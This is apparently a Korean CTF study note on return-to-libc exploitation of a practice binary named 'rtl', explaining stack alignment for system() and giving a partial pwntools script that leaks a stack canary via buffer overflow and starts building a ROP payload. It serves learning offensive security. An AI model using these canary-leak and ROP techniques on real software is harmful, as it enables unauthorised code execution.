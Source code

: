 ##### 페이로드 작성시 주의사항

system 함수로 rip가 이동할 때, 스택은 반드시 0x10 단위로 정렬되어 있어야 한다.
이것은 system 함수 내부에 있는 movaps 명령어 때문인데, 이 명려어는 스택이 0x10 단위로 정렬되어 있지 않으면 Segmentation Fault를 발생한다.

system 함수를 이용한 익스플로잇을 작성할 때, 익스플로잇이 제대로 작성된 것 같은데도 Segmentation Fault가 발생한다면, system 함수의 가젯을 8바이트 뒤로 미뤄보는 것이 좋다.
이를 위해 아무 의미없는 가젯(no-op gadget)을 system 함수 전에 추가할 수 있다.
```
$ ROPgadget --binary=./rtl | grep ": ret"
0x0000000000400596 : ret
$
```


``` python
#!/usr/bin/env python3
# Name: rtl.py

from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
'''
buf address = [rbp-0x40]
canary address = [rbp-08]
canary의 첫바이트(0x00)까지 침범 : rbp-0x40 - rbp-0x08 = rpb-0x38 + 1 

printf("Buf: %s\n", buf)가 동작할 때:
- %s 는 널(0x00)을 만날 때까지 출력한다.
- 원래 카나리 첫 바이트가 0x00이라면 거기서 끊겨야 하는데, 우리가 그 바이트를 0x41로 바꿔놨으니 끊기지 않고 계속 출력됨.
그래서 출력스트림에는 A * 0x39 다으멩 카나리의 나머지 7바이트가 쭉 흘러나오게 됨.

p.recvuntil(buf)의 역할???
- 프로그램이 에코한 A * 0x39 전부를 깔끔히 소비해서 바로 다음 바이트부터 읽을 수 있게 동기화하는 용도임
- 그렇게 해야 그 다음 p.recvn(7)이 정확히 딱 맞게 카나리의 남은 7바이트를 읽어오게 됨.
- 마지막에 u64(b'\x00' + leaked7)로 첫 바이트(원래 0x00)를 앞에 붙여  정확한 8바이트 카나리를 복원함.
'''
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
'''
# ROPgadget --binary=./rtl | grep ": ret"
- x86-64 System V ABI 규약에 따르면,
  어떤 함수가 호출될 때 rsp(스택 포인터)가 16바이트로 정렬되어 있어야 한다.
- 왜냐하면 libc 함수 내부에서 SSE 명령어(movaps)를 쓸 수 있는데, 
  이 명령어는 메모리 주소가 16바이트 배수가 아니면 SIGSEGV (segmentation fault)가 발생한다.
- ret변수에 8바이트의 ret명령 주소값을 저장.
- 해서 8바이트를 보유하면서 자동으로 다음 가젯으로 넘어가게 됨.
- ret : pop rip, jump rip 이므로 다음 가젯 명령으로 넘어가는 것임.

payload += p64(ret)
- ret 실행 시 rsp += 8 되면서 스택 포인터가 바뀜
- 이로써 스택이 16바이트 정렬 상태로 맞춰짐함
- 그 다음 pop rdi ; ret, system@plt 같은 호출이 안정적으로 동작함
'''
system_plt = e.plt['system']
binsh = 0x400874
```